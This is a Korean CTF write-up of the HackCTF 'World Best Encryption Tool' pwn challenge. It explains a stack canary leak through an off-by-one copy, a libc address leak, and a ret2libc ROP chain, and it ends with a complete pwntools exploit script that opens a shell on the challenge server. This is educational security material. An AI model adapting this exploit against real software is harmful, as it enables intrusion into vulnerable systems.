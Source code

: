 ```yaml
---
layout: post
title:  "HacCTF World Best Encryption Tool write-up"
date:   2020-03-16 19:45:55
image:  hackctf_encryption.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] World Best Encryption Tool

Date: Feb 03, 2020
Tags: report

### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled.png)

이번 문제는 카나리가 추가로 설정되어있다.



**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%201.png)

문자열을 입력하면, 해당 문자열이 암호화되어 출력된다. 그다음 다시 입력을 할 것인지 묻게 되는데 여기서 Yes를 입력하면 재입력이 가능하며 No를 누르면 다음과 같이 프로그램이 종료된다



**3) 코드 흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%202.png)

do - while 문이 보인다. 처음 src에 입력을 하고 해당 문자열을 0x31바이트만큼 xor 연산을 하게 된다. 그다음 dest에 0x39 사이즈 만큼 복사를 하고 해당 dest에 들어가 내용을 출력한다.

s1에 들어간 값이 Yes인지 No인지 strcmp() 를 이용하여 확인을 한다. Yes 입력시 다시 반복문을 실행하게 된다.





### 2. 접근방법

---

14라인의 scanf를 이용하여 BOF를 발생시킬수 있다. 하지만 현재 카나리가 걸려있다. 따라서 단순히 BOF를 일으키면 카나리 값이 변조되어 프로그램이 강제 종료가된다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%203.png)

위와 같이 stack smashing detected 되었다면서 종료가 된다.

이 카나리값만 알게 된다면 rbp-0x8 위치에 카나리를 넣고 ROP를 진행하면 될것으로 보인다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%204.png)

scanf로 src에 처음에 입력을 받고, src에 있는 데이터를 dest로 최대 0x39 바이트 만큼 복사가 이루어진다. 노란 영역이 복사될수 있는 최대영역인데, 카나라의 하위 한바이트를 변조 가능하다.

카나리는 하위 한바이트가 널값이기 때문에 만약 src에 들어있는 데이터가 0x38까지라면 strncpy를 통해 0x38바이트만 복사된다. 따라서 printf이 호출되면 널값이 존재하는 카나리 직전까지만 출력이 된다.

따라서 src에 0x39 만큼 입력을하면, dest에 0x39사이즈 만큼 복사가 이루어지고, 카나리의 하위 한바이트를 변경가능하다. 이를 통해  printf가 진행되면 카나리의 값을 leak할 수 있다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%205.png)

0x38만큼 A를 입력하고 B를 하나 입력한 결과이다. 이렇게되면 printf되어 출력되는 데이터들을 받게 되는데 빨간동그라미가 한바이트 덮은 B이고 나머지가 카나리 값이다. 이를 이용하여 이제 ROP를 진행하면 된다. 여기서 카나리 값의 하위 1바이트를 0으로 만들어서 이용하면 끝이다.



- 시나리오
    1. **libc 주소 leak하기**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%206.png)

        처음에는 printf_got를 인자로 printf_plt를 호출하여 printf함수의 주소를 얻으려고 했지만, 이상하게 동작을 하지 않았다. 따라서 puts_got, Puts_plt를 이용하였는데도 이상하게 안돼서 scanf_got로 put_plt를 호출하니 이제서야 됬다.

        !![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%207.png)

    2. **libc database로 libc버전 확인해서 오프셋 조지기**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%208.png)

        이제 ROP를 조지면 끝이다.





### 3. 풀이

---

& 연산으로 카나리 하위 1바이트를 다시 0으로 만들고 진행하였다.

처음 src에 값을 넣은뒤 strncpy가 진행되므로 카나리의 하위 1바이트의 널값이 변경되면 안됀다.

이를 고려하여 작성한 최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3027)
    #p=process("./World_best_encryption_tool")
    e=ELF("./World_best_encryption_tool")
    #gdb.attach(p)
    
    p.recvuntil("Your text)\n")
    
    payload="A"*0x38+"B"
    
    p.sendline(payload)
    p.recv(0x48)
    canary=p.recv(8)
    canary=u64(canary)
    
    log.info("canary::")
    log.info(hex(canary))
    canary=canary&0xFFFFFFFFFFFFFF00
    log.info(hex(canary))
    
    pr=0x4008e3
    
    p.recvuntil("(Yes/No)\n")
    p.sendline("Yes")
    p.recvuntil("Your text)\n")
    
    payload2="A"*56
    payload2+="\x00"
    payload2+="B"*63
    payload2+=p64(canary)
    payload2+="C"*8
    payload2+=p64(pr)
    payload2+=p64(0x601048)
    payload2+=p64(0x4005e0)
    payload2+=p64(0x400727)
    pause()
    p.sendline(payload2)
    
    p.recvuntil("(Yes/No)\n")
    p.sendline("No")
    
    tmp=p.recvline()
    log.info(tmp)
    scanf_addr=u64(tmp[0:6]+"\x00\x00")
    log.info("scanf:"+hex(scanf_addr))
    
    libc_base=scanf_addr-0x06b4d0
    binsh=libc_base+0x18cd57
    system_addr=libc_base+0x045390	
    p.recvuntil("Your text)\n")
    
    payload3="A"*56
    payload3+="\x00"
    payload3+="B"*63
    payload3+=p64(canary)
    payload3+="C"*8
    payload3+=p64(pr)
    payload3+=p64(binsh)
    payload3+=p64(system_addr)
    pause()
    p.sendline(payload3)
    
    p.recvuntil("(Yes/No)\n")
    p.sendline("No")
    
    
    p.interactive()





### 4. 몰랐던 개념

---

카나리의 하위 한바이트가 널값인지는 몰랐다.  아래 사이트에서 카나리 관련 개념을 좀 알아볼 필요가 있을 듯 싶다.

[03.Canaries](https://www.lazenca.net/display/TEC/03.Canaries)

또한 이번 문제는 서버와 통신하는 타이밍 때문에 애좀 썻다.